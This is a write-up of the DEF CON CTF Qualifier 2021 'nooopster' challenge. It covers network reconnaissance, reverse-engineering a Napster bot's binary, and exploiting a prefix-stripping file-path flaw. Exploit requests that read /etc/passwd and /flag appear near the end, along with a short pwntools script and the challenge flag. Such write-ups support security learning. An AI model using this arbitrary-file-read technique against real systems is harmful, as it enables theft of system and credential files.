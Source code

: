 ```yaml
---
title: "DEF CON CTF Qualifier 2021"
categories: [Writeups]
layout: post 
---
```


# DEF CON CTF Qualifier 2021

## Team Placing: #93 / 433

This was my first time ever competing in a DEF CON CTF so it was definitely a learning experience. Nearly all of the challenges were PWN (binary exploitation) challenges, which is definitely one of my weak points. Despite this, my teammate, Dayton, and I were able to solve one of the challenges and learned a ton from the writeups after the competition.

The following writeup is a walkthrough of a challenge that involved a little bit of everything, from performing reconaissance with nmap, to connecting to a Napster server, to analyzing the binary that is controlling a bot user, and finally identifiying and exploiting a vulnerability in that binary to successfully download any file on the user's system. 

### Solvers: This challenge was a collaborative effort between myself and my teammate, [Dayton Hasty (dayt0n)](https://github.com/dayt0n)
### Challenge: nooopster
### Category: PWN, RE 

## Description:

#### Sharing files like its 1999. Connect to my network with OpenVPN.
#### nooopster.challenges.ooo 1999

## Walkthrough:

We're provided an OpenVPN config file and key:

```bash
dev tun
secret openvpn.shared.key
ifconfig 192.168.5.2 192.168.5.1
remote nooopster.challenges.ooo 1999 tcp-client
verb 3
```

Initially the config file contained the wrong remote IP so we were having trouble connecting but with some sharp eyes from Dayton, we were able to replace the incorrect IP with `nooopster.challenge.ooo 1999`. This was eventually fixed by the challenge authors.

Using OpenVPN we can connect like so:

`sudo openvpn nooopster.ovpn`

Based off the OpenVPN config file we know that our local VPN endpoint is `192.168.5.2` and the remote VPN endpoint is `192.168.5.1`. So let's try running a nmap scan on `192.168.5.1`:

```bash
$ sudo nmap -sC -sV -oN nmap/initial 192.168.5.1

PORT     STATE SERVICE         VERSION
7070/tcp open  napster         MLDonkey multi-network P2P client
8888/tcp open  sun-answerbook?
```

Because nmap told us that this was a MLDonkey server, we initially tried connecting via netcat to see if we could supply MLDonkey commands; as well as downloading MLDonkey and other eDonkey clients. All of which didn't work for us.

After some time, we took a closer look at port `8888` and realized that it was actually the standard port for `Napster` which made a lot more sense given the challenge name `nooopster`. 

Doing some research we were able to find a linux napster client called [`Nap`](http://nap.sourceforge.net/). 

Downloading the i386 Debian package and installing like so:

```bash
$ sudo dpkg --add-architecture i386

$ sudo apt-get update

$ sudo dpkg -i nap_1.5.2-2_i386.deb
```

We can now connect to the Napster server like so `nap -s 192.168.5.1:8888`:

![](/assets/img/writeups/DEFCONQuals2021/nooopster%20Writeup.001.png)

After reading some [documentation](http://nap.sourceforge.net/userguide.html) we were able to list the channels with the `/clist` command which revealed a channel called `#chat`. Then we connected to the channel:

`/join #chat`

![](/assets/img/writeups/DEFCONQuals2021/nooopster%20Writeup.003.png)

There appeared to be a bot that repeatedly told us to check out his files. So let's do that! We can use the `/browse nooopster` command to see what files he has:

![](/assets/img/writeups/DEFCONQuals2021/nooopster%20Writeup.004.png)

Nice, that's a lot of 90s songs (which are actually all rickrolls). But if you continue scrolling there's one interesting file at the very end:

![](/assets/img/writeups/DEFCONQuals2021/nooopster%20Writeup.005.png)

So let's download it and run `file`:

```bash
$ file nooopster

nooopster: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=35b1628f65a3b5d518bc802d5cbe122bee0bf226, for GNU/Linux 3.2.0, stripped
```

Since this is an ELF binary, we will throw it into Binary Ninja and check out  `main()` (functions have been renamed for readability purposes):

![main function](/assets/img/writeups/DEFCONQuals2021/main_func1.png)

Knowing that napster is a peer-to-peer file sharing service, the `chdir("shared")` call lead us to believe that this was the binary for the client the `nooopster` user was using. 

It appears as though the initial connection is done with the first `do_connect()` and `send/recv_nap_msg()` call sequences. 

Let's check out that `pthread_create()` call:

![pthread_create](/assets/img/writeups/DEFCONQuals2021/pthread_create.png)

It appears that a new thread is being created that executes the `start_routine_1a80()` function, which starts out by creating a new socket and creating a new thread to handle the connections to the server:

![start_routine_1a80](/assets/img/writeups/DEFCONQuals2021/start_routine_1a80.png)

Now, we can take a look at the `start_routine()` function in the above `pthread_create()`:

![start_routine](/assets/img/writeups/DEFCONQuals2021/start_routine.png)

After digging around in the [napster protocol specification](http://opennap.sourceforge.net/napster.txt), we are able to get a better idea of what is going on here. This above code appears to be for use in handling file download requests. As the protocol specification states in section *5.1  Normal Downloading*, for each download request, a 'GET' string is sent. The code appears to check for that 'GET' string before processing the rest of the message. 

Scrolling down into the function, we find a simple logic vulnerability in this program: 

![vulnerability](/assets/img/writeups/DEFCONQuals2021/vuln.png)

After receiving the filename via the 'GET' command, the function checks to make sure the file path starts with `\shared\`. Then, since it assumes it is running in the `\shared\` directory already, it removes the `\shared\` portion of the path and processes everything after it as a file of its own. 

So, when we asked for the `nooopster` binary in the napster client, it sent a request to the vulnerable client that looked something like this:

```
GETdayt0n "\shared\nooopster" 0
```

We can take advantage of the fact that the vulnerable client processes everything after the `\shared\` string and download virtually any file on the remote client's system. To do this, we would need to send a request that looked like:

```
GETdayt0n "\shared\/etc/passwd" 0
```

This way, the program will attempt to open, read, and send the contents of the file at `/etc/passwd`.

The tricky part was actually triggering this bug in the first place. 

It appeared that in order for us to send our exploit and retrieve the flag, we not only had to connect to the Napster server, but we also had to first download a file manually through the Napster, such as the nooopster binary from before. We made a `check.py` script to ensure that we were able to send requests to the server after the manual download:

```python
from pwn import *

p = remote('192.168.5.1',7070)
print(p.recv())
p.sendline(r'GETducky "\shared\nooopster" 0')
p.interactive()
```

![](/assets/img/writeups/DEFCONQuals2021/nooopster%20Writeup.006.png)

Once we have confirmed that the server has responded to our requests, we just have to update the script to grab `/flag`:

```python
from pwn import *

p = remote('192.168.5.1',7070)
print(p.recv())
p.sendline(r'GETducky "\shared\/flag" 0')
p.interactive()
```

Running the script, we successfully retrieve the flag!

### Flag: OOO{M4573R_0F_PUPP375}